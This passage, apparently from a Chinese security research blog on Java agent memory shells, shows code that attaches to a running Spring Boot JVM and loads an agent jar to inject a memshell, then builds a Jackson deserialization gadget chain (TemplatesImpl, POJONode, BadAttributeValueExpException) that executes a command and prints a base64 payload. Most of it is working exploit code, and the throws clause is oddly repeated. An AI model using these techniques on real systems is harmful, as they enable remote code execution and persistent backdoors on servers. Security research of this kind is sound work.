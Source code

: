 生成对应jar包,然后开始注入

```java
public class Inject_Agent {
    public static void main(String[] args) throws IOException, AttachNotSupportedException, AgentLoadException, AgentInitializationException, AttachNotSupportedException, AgentLoadException, AgentInitializationException, AgentLoadException, AgentInitializationException, AttachNotSupportedException, AgentLoadException, AgentInitializationException, AgentLoadException, AgentInitializationException, AgentLoadException, AgentInitializationException {
        //调用VirtualMachine.list()获取正在运行的JVM列表
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for(VirtualMachineDescriptor vmd : list){
            System.out.println(vmd.displayName());
            //遍历每一个正在运行的JVM，如果JVM名称为Sleep_Hello则连接该JVM并加载特定Agent
            if(vmd.displayName().contains("JavaAgentSpringBootApplication")){

                //连接指定JVM
                VirtualMachine virtualMachine = VirtualMachine.attach(vmd.id());
                //加载Agent
                virtualMachine.loadAgent("/Users/taoyu/Music/code/java_code/Java-Agent-Memshell/AgentInjectionExample/target/AgentInjectionExample-1.0-SNAPSHOT-jar-with-dependencies.jar");
                //断开JVM连接
                virtualMachine.detach();
            }

        }
    }
}
```

注入成功。

![image-20241120183255665](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241120183255665.png)

## Jackson删除writeReplace方法

说到这个链子，我们都知道需要删除BaseJsonNode的writeReplace方法。但是我们其实可以在premain的时候就把这件事情给做了。

```java
Object template = Gadgets.createTemplatesImpl("open -a Calculator");

CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(writeReplace);
ctClass.toClass();

POJONode jsonNodes = new POJONode(template);
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Reflections.setFieldValue(badAttributeValueExpException, "val", jsonNodes);

System.out.println(Tool.base64Encode(Tool.serialize(badAttributeValueExpException)));
```
